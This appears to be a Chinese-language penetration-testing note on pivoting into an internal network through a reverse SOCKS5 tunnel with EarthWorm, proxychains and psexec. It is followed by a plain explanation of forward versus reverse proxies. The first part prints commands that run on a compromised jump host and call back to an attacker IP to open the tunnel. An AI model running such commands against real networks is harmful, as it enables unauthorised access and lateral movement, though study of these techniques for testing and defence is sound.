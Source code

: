 ### socks5

> [通过SOCKS代理渗透整个内网 - 狂客 - 博客园 (cnblogs.com)](https://www.cnblogs.com/kuangke/p/11133693.html)

![img](./assets/v2-afbc489aacfa5fc50163e515cc281cbd_720w.webp)

四步走

1. 攻陷一台跳板机
2. kali上添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口。
3. web服务器上启动SOCKS5服务，并反弹到kali的1234端口上。
4. 配置proxychains.conf  /etc/proxychains.conf  去掉dynamic_chain的注释 添加代理socks5 127.0.0.1 1080

> [终于有人把正向代理和反向代理解释的明明白白了！-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1418457)

> 工具：**EarthWorm**
>
> [idlefire/ew: 内网穿透(跨平台) (github.com)](https://github.com/idlefire/ew)
>
> proxychains_win
>
> [proxychains for windows 用法 - 下站见 (xiazhanjian.com)](https://www.xiazhanjian.com/archives/proxychainsforwindows.html)
>
> [EarthWorm(ew)使用教程 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/259634.html)

一次具体实施:

1.在win10攻击机上运行：

```
ew_for_Win -s rcsocks -l 1080 -e 1234
```

添加一个转接隧道，把本地1080端口收到的代理请求转交给1234端口

2.在攻陷的跳板机上：

```
ew_for_Win -s rssocks -d 100.1.1.101 -e 1234
```

跳板机上启动SOCKS5服务，并反弹到IP地址为100.1.1.101（攻击机）的1234端口上。

3.攻击机启动proxychains：

![image-20231219113111060](./assets/image-20231219113111060.png)

使用psexec进行远程连接

![image-20231219135236653](./assets/image-20231219135236653.png)



代理与反向代理：

![image-20231219092416652](./assets/image-20231219092416652.png)

**正向代理（forward proxy）：是一个位于客户端和目标服务器之间的服务器(代理服务器)，为了从目标服务器取得内容，客户端向代理服务器发送一个请求并指定目标，然后代理服务器向目标服务器转交请求并将获得的内容返回给客户端。**

**所以，正向代理，其实是"代理服务器"代理了"客户端"，去和"目标服务器"进行交互。**

目标服务器是不知道真正的客户端是谁的

![image-20231219092429780](./assets/image-20231219092429780.png)

**反向代理：是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个反向代理服务器。**

**所以，反向代理，其实是"代理服务器"代理了"目标服务器"，去和"客户端"进行交互。**

客户端是不知道真正的目标服务器是谁的

#### **正向代理和反向代理的区别**



虽然正向代理服务器和反向代理服务器所处的位置都是客户端和真实服务器之间，所做的事情也都是把客户端的请求转发给服务器，再把服务器的响应转发给客户端，但是二者之间还是有一定的差异的。



1、**正向代理其实是客户端的代理**，帮助客户端访问其无法访问的服务器资源。**反向代理则是服务器的代理**，帮助服务器做负载均衡，安全防护等。



2、**正向代理一般是客户端架设的**，比如在自己的机器上安装一个代理软件。而**反向代理一般是服务器架设的**，比如在自己的机器集群中部署一个反向代理服务器。



3、**正向代理中，服务器不知道真正的客户端到底是谁**，以为访问自己的就是真实的客户端。而在**反向代理中，客户端不知道真正的服务器是谁**，以为自己访问的就是真实的服务器。



4、正向代理和反向代理的作用和目的不同。**正向代理主要是用来解决访问限制问题。而反向代理则是提供负载均衡、安全防护等作用。二者均能提高访问速度。**